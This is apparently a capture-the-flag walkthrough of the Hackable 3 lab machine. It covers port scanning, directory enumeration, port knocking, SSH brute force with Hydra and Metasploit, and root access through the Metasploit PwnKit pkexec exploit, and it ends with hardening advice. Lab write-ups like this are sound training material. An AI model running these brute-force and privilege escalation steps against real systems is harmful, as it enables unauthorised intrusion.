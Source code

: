 #  Hackable 3 CTF – Summary Walkthrough  

A full text-based breakdown of the Hackable 3 vulnerable machine. This box demonstrates port knocking, multi-layered credential discovery, and privilege escalation via the pkexec vulnerability.  

##  Discovery  
- Ran initial scans:  
nmap -sV -Pn <ip>
nmap -A <ip>

- Found ports:  
- 80 (HTTP – Apache)  
- 22 (SSH – filtered)  

💡 SSH appeared filtered, suggesting firewall restrictions or a port-knocking requirement.  

##  Enumeration  
- Ran `gobuster` on HTTP service:  
gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirb/common.txt -x jpg,html,php,bak,zip,log

- Discovered multiple paths:  
- `/files`  
- `/3.jpg`  
- `/backup`  
- `/config.php`  
- `/css`  
- `/home.html`  
- `/imagens`  
- `/login.php`  
- `/robots.txt`  

✅ Source code of main page revealed **username hint** (`jubiscleudo`) and port-knocking sequence clues.  

##  Foothold  
- Extracted knock sequence from hidden files:  
- `/config/1.txt` → Base64 encoded  
- `/css/2.txt` → Brainfuck encoded (decoded online)  
- `/3.jpg` → Hidden data extracted with `steghide`  

- Executed knock sequence:  
knock <ip> <port1> <port2> <port3>

→ Opened port 22 (SSH).  

- Brute-forced SSH with Hydra:  
hydra -l jubiscleudo -P wordlist.txt ssh://<ip>

- Alternatively, automated login with Metasploit:  
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <ip>
set USERNAME jubiscleudo
set PASSWORD <found-password>
run

✅ Gained SSH access as `jubiscleudo`.  

##  User Escalation (jubiscleudo → hackable_3)  
- Found credentials in `.backup_config.php`:  
cat /var/www/html/.backup_config.php

- Switched user:  
su hackable_3

✅ Access as user `hackable_3`.  

##  Privilege Escalation (hackable_3 → root)  
- Searched for SUID binaries:  
find / -perm -4000 -type f 2>/dev/null

- Found vulnerable **pkexec** binary (Polkit).  

- Upgraded shell to Meterpreter:  
sessions -u <id>

- Used Metasploit exploit:  
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set SESSION <meterpreter-id>
run

✅ Root shell obtained. 🎉  

---

## 🛡 Recommendations  
- **Restrict SSH Access:**  
Configure `/etc/ssh/sshd_config`:  
PermitRootLogin no
PasswordAuthentication no

- **Avoid Storing Credentials in Code:**  
Never place sensitive data (e.g., `.backup_config.php`) in web-accessible directories.  

- **Patch Vulnerable Binaries:**  
Update Polkit to address `pkexec` vulnerability:  
sudo apt update && sudo apt upgrade polkit

Regularly check for updates:  
sudo apt list --upgradable

---

📖 **Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/hackable-3-ctf-full-technical-walkthrough-5d4d35b44562)
